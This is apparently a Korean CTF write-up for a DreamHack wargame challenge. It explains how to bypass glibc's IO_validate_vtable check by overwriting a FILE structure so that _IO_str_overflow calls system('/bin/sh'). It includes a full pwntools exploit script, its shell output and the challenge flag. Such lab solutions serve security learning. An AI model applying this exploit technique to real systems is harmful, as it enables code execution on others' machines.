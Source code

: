 # [DreamHack] Bypass IO_validate_vtable

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Bypass IO_validate_vtable에서 실습하는 문제입니다.
>
> Release: [Bypass IO_validate_vtable.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8550277/Bypass.IO_validate_vtable.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/162555785-b5b02c40-0ab8-4caa-8e0b-10d6f248bdb3.png)

## Analysis

```c
FILE *fp;

int main() {
  init();

  fp = fopen("/dev/urandom", "r");

  printf("stdout: %p\n", stdout);
  printf("Data: ");

  read(0, fp, 300);

  fclose(fp);
}
```

출력되는 `stdout`의 값으로 libc 주소를 계산할 수 있다. 그리고 `read(0, fp, 300)`에서 파일 구조체 전체를 덮어쓸 수 있다.

## Exploit

Ubuntu 18.04 환경이므로, 단순히 vtable을 덮는 방법은 사용할 수 없다. vtable check를 우회하기 위해 `_IO_str_overflow()`를 이용하여 익스플로잇을 할 수 있다.

### fclose()

![image](https://user-images.githubusercontent.com/102066383/162556097-c83ac38f-3bea-4a5d-be5f-9f183ee81cde.png)

![image](https://user-images.githubusercontent.com/102066383/162556101-26aaafb4-0134-4c13-ae47-faaaa5d9dcab.png)

`fclose()`는 내부적으로 vtable에 있는 `_IO_new_file_finish()`를 호출한다.

![image](https://user-images.githubusercontent.com/102066383/162556179-6db99b1f-2d45-4286-b63a-3c69589339ad.png)

`_IO_str_overflow()`는 `_IO_new_file_finish()`보다 `0xc8`만큼 뒤쪽에 있으므로, `fp`의 vtable의 값을 원래보다 `0xc8`만큼 큰 값으로 바꾸면 `_IO_str_overflow()`가 대신 호출된다.

### \_IO\_str\_overflow()

```c
int
_IO_str_overflow (_IO_FILE *fp, int c)
{
  int flush_only = c == EOF;
  _IO_size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
    }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
	return EOF;
      else
	{
	  char *new_buf;
	  char *old_buf = fp->_IO_buf_base;
	  size_t old_blen = _IO_blen (fp);
	  _IO_size_t new_size = 2 * old_blen + 100;
	  if (new_size < old_blen)
	    return EOF;
	  new_buf
	    = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
	  if (new_buf == NULL)
	    {
	      /*	  __ferror(fp) = 1; */
	      return EOF;
	    }
	  if (old_buf)
	    {
	      memcpy (new_buf, old_buf, old_blen);
	      (*((_IO_strfile *) fp)->_s._free_buffer) (old_buf);
	      /* Make sure _IO_setb won't try to delete _IO_buf_base. */
	      fp->_IO_buf_base = NULL;
	    }
	  memset (new_buf + old_blen, '\0', new_size - old_blen);

	  _IO_setb (fp, new_buf, new_buf + new_size, 1);
	  fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
	  fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
	  fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
	  fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);

	  fp->_IO_write_base = new_buf;
	  fp->_IO_write_end = fp->_IO_buf_end;
	}
    }

  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
```

타겟은 `new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size)` 부분이다. `fp->_s._allocate_buffer`에 `system()`의 주소를 넣고 `new_size`에 `"/bin/sh"`의 주소를 넣으면 `system("/bin/sh")`가 호출되어 셸을 획득할 수 있다.

그렇게 하기 위해서는 몇 가지 조건을 맞춰주어야 한다.

- `if (fp->_flags & _IO_NO_WRITES)`의 조건이 참이 되면 `return flush_only ? 0 : EOF;`가 실행되므로 플래그의 `_IO_NO_WRITES`(`0x8`) 비트는 설정되어 있지 않아야 한다.

- `if (pos >= (_IO_size_t) (_IO_blen (fp) + flush_only))`의 조건이 참이 되어야 한다. `pos`는 `pos = fp->_IO_write_ptr - fp->_IO_write_base`로 정의되고, `_IO_blen(fp)`는 `#define _IO_blen(fp) ((fp)->_IO_buf_end - (fp)->_IO_buf_base)`로 정의되고, `flush_only`는 `int flush_only = c == EOF`로 0 또는 1이 된다. 즉, `fp->_IO_write_ptr - fp->_IO_write_base >= fp->_IO_buf_end - fp->_IO_buf_base + 1`이 참이 되어야 한다.

- `if (fp->_flags & _IO_USER_BUF)`의 조건이 참이 되면 `return EOF;`가 실행되므로 플래그의 `_IO_USER_BUF`(`0x1`) 비트는 설정되어 있지 않아야 한다.

- `new_size`는 `"/bin/sh"`의 주소가 되어야 한다. `_IO_size_t new_size = 2 * _IO_blen(fp) + 100`로 `new_size`의 값이 결정되므로, `fp->_IO_buf_end`와 `fp->_IO_buf_base`를 잘 맞춰서 넣어주면 된다.

- `fp->_s._allocate_buffer`의 위치는 구조체를 보면 알 수 있다.

  ```c
  struct _IO_streambuf
  {
    struct _IO_FILE _f;
    const struct _IO_jump_t *vtable;
  };
  
  typedef struct _IO_strfile_
  {
    struct _IO_streambuf _sbf;
    struct _IO_str_fields _s;
  } _IO_strfile;
  
  struct _IO_str_fields
  {
    _IO_alloc_type _allocate_buffer;
    _IO_free_type _free_buffer;
  };
  ```

  즉, `vtable`의 바로 다음에 인접해 있다. 이 위치에 `system()`의 주소를 넣으면 된다.

위의 조건들을 만족하도록 파일 구조체를 조작하면 셸을 획득할 수 있다.

### Full exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('/home/bypass_valid_vtable/bypass_valid_vtable')
    stdout_offset = 0x3ec760
    system_offset = 0x4f420
    binsh_offset = 0x1b3d88
    vtable_offset = 0x3e82a0
else:
    r = remote('host1.dreamhack.games', 10755)
    stdout_offset = 0x3ec760
    system_offset = 0x4f440
    binsh_offset = 0x1b3e9a
    vtable_offset = 0x3e82a0

bss = 0x601080  # empty bss buffer


# leak libc

r.recvuntil('stdout: 0x')
stdout = int(r.recvline()[:-1], 16)  # _IO_2_1_stdout_
libc = stdout - stdout_offset  # libc base
system = libc + system_offset  # system()
binsh = libc + binsh_offset  # "/bin/sh"
vtable = libc + vtable_offset  # _IO_file_jumps


# overwrite _IO_FILE structure

payload = p64(0xfbad0000)  # _flags
payload += p64(0)  # _IO_read_ptr
payload += p64(0)  # _IO_read_end
payload += p64(0)  # _IO_read_base
payload += p64(0)  # _IO_write_base
payload += p64(binsh)  # _IO_write_ptr
payload += p64(0)  # _IO_write_end
payload += p64(0)  # _IO_buf_base
payload += p64(int((binsh - 100) / 2))  # _IO_buf_end
payload += p64(0) * 5
payload += p32(3)  # _fileno
payload += p32(0)  # _flags2
payload += p64(0) * 2
payload += p64(bss)  # _lock
payload += p64(0) * 9
payload += p64(vtable + 0xc8)
payload += p64(system)

r.sendafter('Data: ', payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 10755: Done
[*] Switching to interactive mode
$ cat flag
DH{88f488e0a977c64f4bb355d7a48e6623}
```